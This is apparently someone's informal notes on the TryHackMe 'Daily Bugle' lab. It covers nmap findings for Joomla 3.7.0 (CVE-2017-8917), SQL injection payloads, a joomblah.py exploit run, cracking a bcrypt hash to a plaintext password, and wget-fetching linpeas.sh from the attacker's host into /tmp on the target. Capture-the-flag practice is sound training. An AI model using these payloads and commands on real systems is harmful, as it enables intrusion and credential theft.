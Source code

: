 thm - 2021_05_19 dailybugle

### Enumeration

did the standard nmap, gobuster, nikto
quite impress with this scan
sudo nmap -sV --script vuln 10.10.96.81  

|     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
|_    Pages: http://10.10.96.81:80/, http://10.10.96.81:80/index.php/2-uncategorised/1-spider-man-robs-bank, http://10.10.96.81:80/index.php/2-uncategorised
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
|   /language/en-GB/en-GB.xml: Joomla version 3.7.0
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17


### Looking at Joomla SQLi 

```
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)

```
how do i use it?? 

pretty sure this is illegal, gonna return to learn how to exploit manually
┌──(kali㉿kali)-[~/tryhackme/dailybugle/joomblah-3]
└─$ python joomblah.py http://10.10.96.81:80    


└─$ john --format=bcrypt hash.txt --wordlist=/home/kali/Downloads/rockyou.txt                         1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:55 0.03% (ETA: 2021-05-21 10:31) 0g/s 105.0p/s 105.0c/s 105.0C/s friend1..wildchild
0g 0:00:01:21 0.05% (ETA: 2021-05-21 10:15) 0g/s 105.0p/s 105.0c/s 105.0C/s classof2010..nenas
0g 0:00:01:23 0.05% (ETA: 2021-05-21 10:13) 0g/s 105.2p/s 105.2c/s 105.2C/s alphabet..jigsaw
0g 0:00:02:49 0.10% (ETA: 2021-05-21 13:06) 0g/s 98.58p/s 98.58c/s 98.58C/s mike16..ice-cream
0g 0:00:09:22 0.25% (ETA: 2021-05-22 03:40) 0g/s 76.12p/s 76.12c/s 76.12C/s naranjo..mhines
spiderman123     (?)
1g 0:00:10:17 DONE (2021-05-19 12:39) 0.001619g/s 75.87p/s 75.87c/s 75.87C/s thebadboy..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed


### secure your tmp directory people 

download linpeas in tmp as it's like the only place where i got write access
sh-4.2$ cd tmp
cd tmp
sh-4.2$ wget 10.4.24.92:8000/linpeas.sh
wget 10.4.24.92:8000/linpeas.sh
--2021-05-19 13:31:08--  http://10.4.24.92:8000/linpeas.sh
Connecting to 10.4.24.92:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 341117 (333K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 15% 70.2K 4s
    50K .......... .......... .......... .......... .......... 30%  139K 2s
   100K .......... .......... .......... .......... .......... 45% 6.13M 1s
   150K .......... .......... .......... .......... .......... 60%  144K 1s
   200K .......... .......... .......... .......... .......... 75% 10.7M 0s
   250K .......... .......... .......... .......... .......... 90% 8.31M 0s
   300K .......... .......... .......... ...                  100% 9.69M=1.4s

2021-05-19 13:31:10 (231 KB/s) - 'linpeas.sh' saved [341117/341117]


sh-4.2$ ./linpeas.sh
./linpeas.sh
sh: ./linpeas.sh: Permission denied
sh-4.2$ ls -l linpeas.sh
ls -l linpeas.sh
-rw-rw-rw- 1 apache apache 341117 May 19 13:13 linpeas.sh
sh-4.2$ chmod 777 linpeas.sh
chmod 777 linpeas.sh

